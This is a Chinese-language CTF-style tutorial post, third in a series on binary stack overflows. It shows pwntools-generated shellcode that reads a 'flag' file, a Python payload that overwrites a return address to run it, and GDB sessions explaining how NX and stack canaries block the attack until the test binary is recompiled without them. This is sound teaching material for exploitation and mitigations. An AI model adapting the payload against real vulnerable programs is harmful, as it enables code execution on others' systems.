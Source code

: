 ```yaml
---
id: 778
layout: post
title: '二进制安全之栈溢出（三）'
date: 2017-10-22 12:46:07
author: virusdefender
tags: 安全 CTF
---
```


[上一篇文章](https://virusdefender.net/index.php/archives/777/)中控制了函数的返回地址，将地址修改为已有的指令地址，但是为了实现任意代码执行，是需要将返回地址修改为我们可以控制的 shellcode 的地址的。

## shellcode

在 http://docs.pwntools.com/en/stable/shellcraft/amd64.html#module-pwnlib.shellcraft.amd64.linux 有使用 pwntools 生成 shellcode 的文档。我选择了一个读取文件的 shellcode。

```python
>>> from pwn import *
>>> code = shellcraft.amd64.linux.cat("flag")
>>> asm_code = asm(code, arch="amd64", os="linux")
>>> print code
    /* push 'flag\x00' */
    push 0x67616c66
    /* call open('rsp', 0, 'O_RDONLY') */
    push SYS_open /* 2 */
    pop rax
    mov rdi, rsp
    xor esi, esi /* 0 */
    cdq /* rdx=0 */
    syscall
    /* call sendfile(1, 'rax', 0, 2147483647) */
    mov r10d, 0x7fffffff
    mov rsi, rax
    push SYS_sendfile /* 0x28 */
    pop rax
    push 1
    pop rdi
    cdq /* rdx=0 */
    syscall

>>> print repr(asm(code))
'hflagj\x02XH\x89\xe71\xf6\x99\x0f\x05A\xba\xff\xff\xff\x7fH\x89\xc6j(Xj\x01_\x99\x0f\x05'
>>> print len(asm_code)
34
```

因为这段 shellcode 长度只有 34 个字节，完全可以塞入栈中，然后我们使用之前的办法，确定一个返回地址就可以了，这里就是 `student` 结构体的起始地址。

```python
from pwn import *

code = shellcraft.amd64.linux.cat("flag")
shellcode = asm(code, arch="amd64", os="linux")
data =  "1925\n" + shellcode + "A" * (0x7fffffffe348 - 0x7fffffffe2f0 - len(shellcode)) + p64(0x7fffffffe2f0)

print data
```

## NX 栈不可执行

在 GDB 中运行，会得到一个 SIGSEGV，并不会得到 flag。

```
gdb-peda$ r < in.txt
Starting program: /home/virusdefender/Desktop/pwn/new/vuln < in.txt
What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7b04290 (<__write_nocancel+7>:	cmp    rax,0xfffffffffffff001)
RDX: 0x7ffff7dd3780 --> 0x0
RSI: 0x602010 ("You Speed One Second Here.\n")
RDI: 0x1
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffe350 --> 0x0
RIP: 0x7fffffffe2f0 --> 0x58026a67616c6668
R8 : 0x2e6572654820646e ('nd Here.')
R9 : 0x1b
R10: 0x0
R11: 0x246
R12: 0x4005c0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe420 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7fffffffe2ea:	add    bh,bh
   0x7fffffffe2ec:	add    DWORD PTR [rax],eax
   0x7fffffffe2ee:	add    BYTE PTR [rax],al
=> 0x7fffffffe2f0:	push   0x67616c66
   0x7fffffffe2f5:	push   0x2
   0x7fffffffe2f7:	pop    rax
   0x7fffffffe2f8:	mov    rdi,rsp
   0x7fffffffe2fb:	xor    esi,esi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe350 --> 0x0
0008| 0x7fffffffe358 --> 0x7fffffffe428 --> 0x7fffffffe6b4 ("/home/virusdefender/Desktop/pwn/new/vuln")
0016| 0x7fffffffe360 --> 0x1f7ffcca0
0024| 0x7fffffffe368 --> 0x4006b6 (<main>:	push   rbp)
0032| 0x7fffffffe370 --> 0x0
0040| 0x7fffffffe378 --> 0xd7d0880889372de6
0048| 0x7fffffffe380 --> 0x4005c0 (<_start>:	xor    ebp,ebp)
0056| 0x7fffffffe388 --> 0x7fffffffe420 --> 0x1
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00007fffffffe2f0 in ?? ()
```

而且可以看到我们的地址计算是没问题的，只是 shellcode 第一个指令就挂掉了。

原因是并不是所有的内存区域都可执行的，使用 `vmmap` 可以看到，`0x00007fffffffe2f0` 所在的区域（`[stack]` 区域或者使用 `vmmap 0x00007fffffffe2f0`）是 `rw-p`，是没有 `x` 执行权限的。

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r-xp	/home/virusdefender/Desktop/pwn/new/vuln
0x00600000         0x00601000         r--p	/home/virusdefender/Desktop/pwn/new/vuln
0x00601000         0x00602000         rw-p	/home/virusdefender/Desktop/pwn/new/vuln
0x00602000         0x00623000         rw-p	[heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 r-xp	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 ---p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 r--p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 rw-p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 rw-p	mapped
0x00007ffff7dd7000 0x00007ffff7dfd000 r-xp	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fda000 0x00007ffff7fdd000 rw-p	mapped
0x00007ffff7ff6000 0x00007ffff7ff8000 rw-p	mapped
0x00007ffff7ff8000 0x00007ffff7ffa000 r--p	[vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp	[vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p	mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
```

这其实是 Linux 对漏洞利用的缓解措施中的一种，标记部分内存不可执行，使用 `checksec` 可以查看漏洞利用缓解措施的状态。

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

`NX` 就是标记内存不可执行，这里是 `ENABLED` 状态。

`CANNARY` 是编译器会插入一些标记和检查指令，如果栈溢出的时候把它们覆盖了，那检查的时候就会导致导致进程退出。我们使用了 `-fno-stack-protector` 禁用了这个特性。

其他的遇到的时候再说。

所以我们应该使用的编译参数是 `gcc -g -O0 -fno-stack-protector -z execstack -o vuln main.c`，这样才可以正常运行 payload，最后的 SIGSEGV 是因为堆栈不平衡导致的。

这样就可以看到 student 的内存区域是可执行的了。

```
gdb-peda$ vmmap 0x7fffffffe2f0
Start              End                Perm	Name
0x00007ffffffde000 0x00007ffffffff000 rwxp	[stack]
```

```
gdb-peda$ r < in.txt
Starting program: /home/virusdefender/Desktop/pwn/new/vuln < in.txt
What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.
THIS_IS_FLAG

Program received signal SIGSEGV, Segmentation fault.
```

## 参考

 - [https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/](https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/)
 - [https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/](https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/)
 - [https://www.mattandreko.com/2011/12/17/exploit-exercises-protostar-stack-5/](https://www.mattandreko.com/2011/12/17/exploit-exercises-protostar-stack-5/)




